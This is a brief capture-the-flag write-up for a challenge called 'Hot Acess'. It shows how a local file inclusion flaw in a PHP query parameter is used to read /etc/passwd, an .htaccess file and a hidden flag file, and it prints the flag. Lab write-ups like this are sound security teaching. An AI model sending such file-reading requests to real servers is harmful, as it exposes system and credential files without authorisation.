# Hot Acess

> This small program lets you load convenient and simple PHP modules and resources from this Apache webserver. Check out what you can access!

I read the source of the index page, and found the links that were used to load php files.
```html
		<ul>
			<li> <a href="http://jh2i.com:50016/?m=modules/date.php"> date </a></li>
			<li> <a href="http://jh2i.com:50016/?m=modules/time.php"> time </a></li>
		</ul>
```

So I changed the query string to load `etc/passwd`
> http://jh2i.com:50016/?m=\etc\passwd
and it worked!

Then I tried opening .htaccess file, and it worked to and it gave this location a directory

```xml
<Directory /var/www/html>

	Options Indexes FollowSymLinks MultiViews
	AllowOverride All
	Order allow,deny
	allow from all
 
 </Directory>

  <Directory /var/www/html/sshh_dont_tell_i_hid_the_flag_here>
	
	AllowOverride All
 
 </Directory> 
```

So the flag has to be inside this directory `/var/www/html/sshh_dont_tell_i_hid_the_flag_here`, I tried opening http://jh2i.com:50016/?m=/var/www/html/sshh_dont_tell_i_hid_the_flag_here/flag.txt and it gave the flag!

> #### LLS{htaccess_can_control_what_you_access}




